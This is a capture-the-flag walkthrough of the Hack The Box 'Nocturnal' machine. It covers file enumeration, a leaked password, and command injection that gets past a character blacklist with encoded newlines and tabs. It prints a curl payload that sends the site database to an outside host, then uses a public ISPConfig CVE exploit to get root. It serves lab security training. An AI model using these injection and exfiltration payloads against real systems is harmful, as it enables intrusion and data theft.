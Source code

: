 ![https://app.hackthebox.com/machines/656](https://app.hackthebox.com/machines/656)

## ENUM :

Open ports

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

dirb result:

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Jul 10 13:54:38 2025
URL_BASE: http://nocturnal.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://nocturnal.htb/ ----                                                                                                                                                                                                      + http://nocturnal.htb/admin.php (CODE:302|SIZE:0)                                                                                                                                                                                         
==> DIRECTORY: http://nocturnal.htb/backups/                                                                                                                                                                                               
+ http://nocturnal.htb/index.php (CODE:200|SIZE:1524)                                                                                                             
---- Entering directory: http://nocturnal.htb/backups/ ----

-----------------
END_TIME: Thu Jul 10 14:02:40 2025
DOWNLOADED: 9224 - FOUND: 2
```

No subdomain detected

I move on to using the service by analyzing it with Burp

I find the page: `http://nocturnal.htb/dashboard.php` which allows file upload, this is likely the vulnerability.

I try, but I can only download the file back, however I analyze the provided link:

`/view.php?username=zeroz&file=payload.php.pdf`

I will run several tests, what happens if I put in a non-existent file?

It returns an extension error. Now, is it possible to list all files by their extensions?

`/view.php?username=zeroz&file=*.pdf`

Yes! And that’s good news! Because with some luck, I can list the files of all the other users by using BurpSuite Intruder.

---

## Initial access / Own user

I will make 2 lists: one for extensions and a random wordlist from the internet with names.

When uploading a PHP file, I get this message:
`Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed.`

So I have my first list, and I also have the second on my Kali:
`/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt`

I’ll then run a “Cluster Bomb Attack” with Intruder.

I find 2 users:
`admin` and `amanda`

Worth digging! I run a lighter scan on those 2 users.

I find the file: `privacy.odt` on Amanda’s account

```
Dear Amanda,

Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.

The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.

Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.

  

Yours sincerely,

Nocturnal's IT team
```

So I found this password: `arHkG7HAI68X8s1J`

I can connect as Amanda and access the admin panel.

I inspect the files and one part catches my eye:

```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

The password is directly inserted into the shell command!
There is a filtering function:

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
```

But I doubt it’s unbreakable!

```
[';', '&', '|', '$', ' ', '`', '{', '}', '&&']
```

Despite the blacklist, nothing protects against **new lines (`%0a`)** or **tabs (`%09`)** when URL-encoded:

* `%0a` injects a line break (`\n`)
* `%09` injects a tab (`\t`), used as space in shell

The goal is to break out of the zip command to execute code directly.

And I have all the pieces! However, I couldn’t get a reverse shell, so instead I’ll execute small commands for exfiltration.

I find: `../nocturnal_database/nocturnal_database.db`

I manage to download it via my extraction script + curl:

```
password=%0abash%09-c%09"curl%09-F%09data=@../nocturnal_database/nocturnal_database.db%09http://ip:port"%0a&backup=
```

I analyze it on my machine (important to note that I also saw this in `register.php`: `$password = md5($_POST['password']);` → passwords are MD5 hashes).

![alt text](note/ctf/asset/HTB_Noctural.png)

I copy them all and use Crackstation:

| user    | password             |
| ------- | -------------------- |
| admin   | not found            |
| amanda  | not found            |
| tobias  | slowmotionapocalypse |
| kavi    | kavi                 |
| e0Al5   | not found            |
| hola    | hola                 |
| zeroz   | test                 |
| elix    | elix                 |
| test    | test                 |
| toto    | Qwerty12345!         |
| transit | 1234                 |

I assume one of these accounts must be valid, but I’m mainly looking for which one gives me SSH access, so I exfiltrate `/etc/passwd`:

```
cat passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
```

Perfect! I have credentials:
`tobias : slowmotionapocalypse`

---

## Own root

#### linpeas :

Cron checked:
`-rw-r--r--   1 root root 2473 Oct 18  2024 sendmail`

Open ports:

```
127.0.0.1:8080 (web service)
127.0.0.1:3306 (MySQL)
127.0.0.1:33060
127.0.0.1:587
127.0.0.1:25
```

Users with shell:

```
root:x:0:0:root:/root:/bin/bash
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
```

Likely related service:

```
/var/www/ispconfig
/usr/local/ispconfig
```

Mail applications:

```
sendmail
sendmail-msp
sendmail-mta
```

#### Exploit

I check the service by doing a port forward:
`ssh -L 8080:127.0.0.1:8080 tobias@10.10.11.64`

I land on an ISPConfig interface, version `3.2.10p1`, which is vulnerable to **CVE-2023-46818**.

Tobias + his password doesn’t work, I try `admin` with Tobias’ password and it works.

I can exploit the CVE! → [https://github.com/ajdumanhug/CVE-2023-46818](https://github.com/ajdumanhug/CVE-2023-46818)

`python exploit.py http://localhost:8080 admin slowmotionapocalypse`

And I get root!

```
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Login successful!
...
ispconfig-shell# whoami
root

ispconfig-shell# cat /root/root.txt
1553099a6f18b90469778a90e420f82e
```